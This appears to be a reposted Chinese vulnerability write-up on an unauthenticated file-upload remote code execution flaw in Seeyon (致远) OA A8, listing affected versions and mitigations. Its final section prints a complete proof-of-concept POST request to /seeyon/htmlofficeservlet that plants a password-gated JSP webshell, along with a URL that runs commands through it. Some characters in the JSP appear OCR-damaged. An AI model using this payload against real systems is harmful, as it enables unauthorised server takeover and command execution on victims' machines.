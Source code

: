 # 致远OA A8 系统远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3354](https://www.zhihuifly.com/t/topic/3354)

# 致远OA A8 系统远程命令执行漏洞

## 一、漏洞简介

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

## 二、漏洞影响

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

漏洞处置建议

临时修补方案如下：

1、 配置URL访问控制策略；

2、 在公网部署的致远A8+服务器，通过ACL禁止外网对“/seeyon/htmlofficeservlet”路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。
详情请移步CNVD官网查看https://www.cnvd.org.cn/webinfo/show/5095

## 三、复现过程

先访问/seeyon/htmlofficeservlet

![image](img/38eb852e7e84d50b19b9b313089d86d7.png)
出现DBSTEP V3.0 0 21 0 htmoffice operate err
![image](img/3e51f53a1d9525934db87d1988a858a4.png)
掏出burp进行抓包替换成poc如下
![image](img/ec5632387038a39f4ed74a34c5094135.png)
提交POST请求包，查看回显如下
![image](img/c31a6198a80bd1b18e6c898116af2032.png)

### 小结

POC：(POST包)

```
POST /seeyon/htmlofficeservlet HTTP/1.1
Content-Length: 1111
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.0-sec.org
Pragma: no-cache `DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV

OPTION=S3WYOSWLBSGr

currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66

CREATEDATE=wUghPB3szB3Xwg66

RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6

originalFileId=wV66

originalCreateDate=wUghPB3szB3Xwg66

FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6

needReadFile=yRWZdAS6

originalCreateDate=wLSGP4oEzLKAz4=iz=66

<%@ page language=“java” import=“java.util.*,[java.io](http://java.io).*” pageEncoding=“UTF-8”%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec©;BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if(“123”.equals(request.getParameter(“pwd”))&&!"".equals(request.getParameter(“cmd”))){out.println("<pre>"+excuteCmd(request.getParameter(“cmd”)) + “</pre>”);}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce` 
```

> `http:/www.0-sec.org/seeyon/test123456.jsp?pwd=123&cmd=cmd+/c+whoami`
> test123456.jsp名称由来为`FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6`解密以后，加密方式不详，可能为oa内置加密方式